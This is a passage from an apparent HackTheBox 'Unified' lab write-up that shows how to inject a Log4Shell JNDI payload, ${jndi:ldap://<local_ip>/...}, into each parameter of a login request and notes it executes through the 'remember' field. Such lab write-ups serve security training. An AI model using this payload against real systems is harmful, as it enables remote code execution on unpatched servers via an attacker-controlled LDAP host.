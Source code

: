 We can see that there are four parameters namely username/passwd/remember/strict,<br>
do JNDI malicious parameter insertion starting from the first parameter,<br>
replace the payload of <code>username</code> with <code>${jndi:ldap://&lt;local_ip&gt;/&lt;random_input&gt;}</code> and send it.<br>
You can see the msg：<code>api.err.Invalid</code> in the response on the right.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/repeaterinvalid.png" alt="repeaterinvalid" width="60%"><br> 
Change the payload of <code>password</code> to <code>${jndi:ldap://&lt;local_ip&gt;/&lt;random_input&gt;}</code> and send it,<br> in the place of response on the right, you will also see msg: <code>api.err.Invalid</code>.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/repeaterinvalid2.png" alt="repeaterinvalid2" width="60%"><br>
Replace the payload of <code>remember</code> with <code>${jndi:ldap://&lt;local_ip&gt;/&lt;random_input&gt;}</code> and send it,<br>
in the response on the right, you will see msg：<code>api.err.Invalid<b>Payload</b></code>.<br>
Despite an invalid message is displayed, in fact, the payload is still being executed behind the scenes.<br>